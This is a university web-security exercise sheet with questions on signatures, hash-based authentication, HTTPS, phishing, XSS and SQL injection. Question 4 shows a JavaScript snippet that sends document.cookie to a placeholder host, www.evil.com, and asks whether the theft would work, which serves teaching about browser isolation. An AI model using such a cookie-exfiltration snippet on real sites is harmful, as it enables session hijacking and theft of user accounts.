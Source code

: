 # Exercises sheet 3 Web Security

**There will be no written corrections. Exercises will be discussed during the recorded live Q&A. Come and prepare questions.**

1. Barack often sends funny jokes to Hillary. He does not care about confidentiality of these messages but wants to get credit for the jokes and prevent Bill from claiming authorship of or modifying them. How can this be achieved using public-key cryptography? 
2. As public-key cryptography is computationally intensive and drains the battery of Barack’s device, he comes up with an alternative approach. First, he shares a secret key k with Hillary but not with Bill. Next, together with a joke x, he sends over the value d = h(k||x), where h is a cryptographic hash function. Does value d provide assurance to Hillary that Barack is the author of x and that xwas not modified by Bill? Justify your answer.
3. Barack periodically comes up with brilliant ideas to stop the financial crisis, provide health care to every citizen, and save the polar bears. He wants to share these ideas with all the cabinet members but also get credit for the ideas. Extending the above approach, he shares a secret key k with all the cabinet members. Next, he broadcasts each idea z followed by value h(k||z). Does this approach work or can Tim claim that he came up with the ideas instead of Barack? Justify your answer. 
4. Suppose that you accedently visit a malicious site www.evil.com, which contains a JavaScript to access cookies related to your e-shopping site buy-all.bz as follows:
`<script>
img = new Image();
img.src = "http://www.evil.com/steal.php?cookie=" + document.cookie;
</script>`. Will that be successful? Why or why not?
5. Which of the following security goals are addressed by the HTTPS protocol: (a) privacy, (b) confidentiality, (c) availability.
6. Is it possible for an attacker to performa phishing attack if the client is using HTTPS? Why or why not? 
7. Explain why, in general, a web server should not be allowed access to cookies set by another web server. 
8. Summarize the difference between persistent and non-persistent cross-site scripting attacks. 
9. Explain why input validation mitigates the risks of SQL injection attacks.